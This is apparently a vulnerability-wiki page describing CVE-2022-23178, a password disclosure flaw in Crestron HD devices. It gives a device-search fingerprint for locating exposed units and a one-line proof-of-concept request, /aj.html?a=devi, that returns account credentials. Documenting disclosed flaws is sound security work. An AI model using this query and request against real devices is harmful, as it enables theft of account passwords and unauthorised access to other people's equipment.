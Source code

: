 # Crestron aj.html Account password leak vulnerability CVE-2022-23178

## Vulnerability Description

Crestron HD and other series of devices can obtain sensitive information such as account password when calling specific parameters on the page of aj.html

## Vulnerability Impact

<span style="background-color:rgb(18, 160, 255); padding: 2px 4px; border-radius: 3px; color: white;">Crestron HD and other series of equipment</span>

## Network surveying and mapping

<span style="background-color:rgb(18, 160, 255); padding: 2px 4px; border-radius: 3px; color: white;">app="Crestron-HD-RX-201-C-E"</span>

## Vulnerability reappears

Product Page

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/1644758503441-dca2357a-9bc4-48fd-a5f2-b30f3db71ed3.png)

Verify POC

```javascript
/aj.html?a=devi
```

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/1644758524287-912c0410-f3fd-4ad7-a4cf-aa47782a44ee.png)



If you gain something, just like it